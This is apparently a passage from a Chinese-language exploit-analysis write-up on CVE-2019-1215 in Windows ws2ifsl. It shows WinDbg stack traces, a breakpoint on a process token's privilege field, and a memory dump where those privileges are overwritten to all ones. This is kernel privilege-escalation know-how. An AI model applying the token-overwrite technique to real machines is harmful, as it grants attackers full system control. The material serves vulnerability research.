 应该是这个apc被触发后(NtTestAlert)后，执行+0x20那个地址，为什么会调用这个地址，这个得再研究一下。

{dt 的时候，使用dt nt!_KAPC 会显示，0x20地址是，KernelRoutine，这就不难理解了。}

当然这个函数也没法直接断，系统频繁调用，也不可能直接断KiInsertQueueApc，也是频繁调用。此处放一个错误的地址，蓝屏后的堆栈调用：

```
1: kd> kp
 # Child-SP          RetAddr           Call Site
00 ffffcf88`72291ab8 fffff807`186a6492 nt!DbgBreakPointWithStatus
01 ffffcf88`72291ac0 fffff807`186a5b82 nt!KiBugCheckDebugBreak+0x12
02 ffffcf88`72291b20 fffff807`185bc917 nt!KeBugCheck2+0x952
03 ffffcf88`72292220 fffff807`185ce469 nt!KeBugCheckEx+0x107
04 ffffcf88`72292260 fffff807`185ce890 nt!KiBugCheckDispatch+0x69
05 ffffcf88`722923a0 fffff807`185ccc1f nt!KiFastFailDispatch+0xd0
06 ffffcf88`72292580 fffff807`185d8817 nt!KiRaiseSecurityCheckFailure+0x31f
07 ffffcf88`72292718 fffff807`1845362f nt!KiInsertQueueApc+0x18610b
08 ffffcf88`72292720 fffff807`18433958 nt!KiSchedulerApc+0x22f
09 ffffcf88`72292850 fffff807`18431b9a nt!KiDeliverApc+0x2e8
0a ffffcf88`72292910 fffff807`18430f54 nt!KiSwapThread+0x6ca
0b ffffcf88`722929b0 fffff807`1842bd10 nt!KiCommitThreadWait+0x144
0c ffffcf88`72292a50 fffff807`18a179af nt!KeDelayExecutionThread+0x4c0
0d ffffcf88`72292ad0 fffff807`185cde95 nt!NtDelayExecution+0x5f
0e ffffcf88`72292b00 00007ffb`c163c6e4 nt!KiSystemServiceCopyEnd+0x25
0f 00000088`e93ffd18 00007ffb`be8c6931 ntdll!NtDelayExecution+0x14
10 00000088`e93ffd20 00007ff6`9a07173b KERNELBASE!SleepEx+0xa1
11 00000088`e93ffdc0 00007ffb`bfca7944 CVE_2019_1215_ws2ifsl!APCThread2(void * lparam = 0x00000000`00000000)+0x6b
```

断点在写token那，即SeSetAccessStateGenericMapping函数内。当前测试时，进程的token地址时：0xFFFFD18500A936B0，然后对应的+0x40 (_SEP_TOKEN_PRIVILEGES),地址就是：FFFFD18500A936F0：

ba w1 FFFFD18500A936F0，断下：

<img src="\images\pic\cve-2019-1215\12.png" alt="12" style="zoom:100%;" />

![](\images\pic\cve-2019-1215\xx.png)

其中rax值：ffffd18500a936e8，这也是为什么第一次调用TriggerBug时，减了个8，调用这个函数，刚好赋值的地址：0xFFFFD18500A936F0

```
3: kd> db FFFFD18500A936B0
ffffd185`00a936b0  55 73 65 72 33 32 20 00-0e c1 02 00 00 00 00 00  User32 .........
ffffd185`00a936c0  fe f9 37 00 00 00 00 00-0f c4 02 00 00 00 00 00  ..7.............
ffffd185`00a936d0  00 00 00 00 00 00 00 00-ff ff ff ff ff ff ff 7f  ................
ffffd185`00a936e0  10 82 e1 73 89 e3 ff ff-75 83 12 00 00 00 00 00  ...s....u.......
ffffd185`00a936f0  ff ff ff ff ff ff ff ff-e8 36 a9 00 85 d1 ff ff  .........6......
ffffd185`00a93700  00 00 80 40 00 00 00 00-00 00 00 00 00 00 00 00  ...@............
ffffd185`00a93710  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
ffffd185`00a93720  00 00 00 00 00 00 01 00-01 00 00 00 0f 00 00 00  ................
```
